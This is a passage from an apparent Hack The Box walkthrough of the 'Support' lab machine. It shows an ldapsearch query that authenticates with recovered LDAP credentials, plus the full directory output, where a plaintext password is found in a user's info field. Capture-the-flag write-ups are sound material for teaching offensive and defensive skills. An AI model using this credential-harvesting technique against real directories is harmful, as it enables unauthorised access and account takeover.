 Naturally, the next logical step is to use these credentials to perform an **LDAP query** and see what we can extract. Let's go!

```bash
ldapsearch -x -H ldap://10.10.11.174 -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(sAMAccountName=support)"
```

Result:

```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support/userinfo]
└─$ ldapsearch -x -H ldap://10.10.11.174 -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(sAMAccountName=support)"
# extended LDIF
#
# LDAPv3
# base <DC=support,DC=htb> with scope subtree
# filter: (sAMAccountName=support)
# requesting: ALL
#

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20250406093934.0Z
uSNCreated: 12617
**info: Ironside47pleasure40Watchful**
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 86141
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 3
codePage: 0
countryCode: 0
badPasswordTime: 133884186150257695
lastLogoff: 0
lastLogon: 133884178740882069
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133884059744319606

```